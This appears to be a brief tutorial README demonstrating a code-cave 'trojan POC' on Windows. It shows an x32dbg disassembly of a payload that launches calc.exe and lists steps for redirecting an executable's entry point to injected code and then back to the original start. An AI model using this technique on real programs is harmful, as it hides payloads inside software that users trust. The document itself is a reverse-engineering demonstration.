 ```nasm
00B27C81 | BB 4713726F              | mov ebx,6F721347                        |
00B27C86 | 6A 00                    | push 0                                  |
00B27C88 | 59                       | pop ecx                                 | ecx:"éú4"
00B27C89 | 41                       | inc ecx                                 | ecx:"éú4"
00B27C8A | 89DA                     | mov edx,ebx                             | edx:"éú4"
00B27C8C | FFD5                     | call ebp                                |
00B27C8E | 6361 6C                  | arpl word ptr ds:[ecx+6C],sp            |
00B27C91 | 632E                     | arpl word ptr ds:[esi],bp               |
00B27C93 | 65:78 65                 | js pe-deepdive.B27CFB                   |
00B27C96 | 0000                     | add byte ptr ds:[eax],al                | eax:",øï
```

### Detailed Walkthrough

1. We first open our compiled executable in x32dbg and find its entry point, and make a note of it.
2. We then find the code cave and put its address in our entry point.
3. We come to the code cave and use 2 operations - pushad & pushfd.
4. After that, we insert our payload into the code cave area.
5. We put the following commands - popad & popfd.
6. After that we keep our original code-startup address and the one following it.
7. Applying the patches makes our small trojan POC work successfully.
8. Tested in windows 10